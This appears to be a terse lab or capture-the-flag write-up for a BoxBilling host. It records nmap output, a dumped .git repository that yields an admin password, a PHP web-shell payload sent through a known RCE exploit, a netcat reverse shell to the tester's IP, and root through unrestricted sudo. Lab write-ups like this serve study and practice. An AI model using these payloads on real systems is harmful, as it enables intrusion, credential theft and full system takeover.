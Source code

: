 # Table of Contents
- [Recon](#recon)
    - [nmap](#nmap)
- [Foothold](#foothold)
    - [Ports](#ports)
        - [80](#80)
- [PE](#pe)

# Recon

## nmap
```c
PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
| 256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)  
|_ 256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)  
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))  
|_http-server-header: Apache/2.4.52 (Ubuntu)  
|_http-title: Client Area  
| http-robots.txt: 8 disallowed entries  
| /boxbilling/bb-data/ /bb-data/ /bb-library/  
|_/bb-locale/ /bb-modules/ /bb-uploads/ /bb-vendor/ /install/  
| http-git:  
| 192.168.167.27:80/.git/  
| Git repository found!  
| Repository description: Unnamed repository; edit this file 'description' to name the...  
|_ Last commit message: Ready For launch  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Aggressive OS guesses: Cisco Unified Communications Manager VoIP adapter (96%), Linux 2.6.26 (PCLinuxOS) (96%), Linux 2.6.18 (90%), Dell DR4100 backup appliance (88%), Dish Network Hopper media device (88%), Android 7.1.2 (Linux 3.10) (88%), DD-WRT v23 (Linux 2.4.36) (88%), Cisco SA520 firewall (Linux 2.6) (88%), Linux 2.6.11 (88%), Vyatta router (Linux 2.6.26) (88%)  
No exact OS matches for host (test conditions non-ideal).  
Network Distance: 4 hops  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Foothold
## Ports
#### 80
<pre>
Apache
Box billing landing page
    Found known exploit that gives RCE, requires admin:  https://www.exploit-db.com/exploits/51108
    /robots.txt  >  multiple disallowed pages. Found admin email:  admin@bullybox.local
    /.git  >  forbidden
        git-dumper http://bullybox.local/.git ~/git
        cat * | grep admin  >  Found admin login page  /bb-admin
        cat * | grep password  >  Found password "Playing-Unstylish7-Provided"
/bb-admin
    Credentials: admin@bullybox.local:Playing-Unstylish7-Provided
    Follow the known exploit and capture with burp. Cahnge payload to:  &path=axs.php&data=<?=`$_GET[0]`?>
    Navigate to /axs.php?0=id   >  we have command execution
    To get RCE
        nc -lvnp 80
        /axs.php?0=busybox nc 192.168.45.151 80 -e /bin/bash
</pre>

# PE
<pre>
ID
    uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
sudo -l
    (ALL : ALL) ALL  
    (ALL) NOPASSWD: ALL

sudo su  >  now we are rooted


</pre>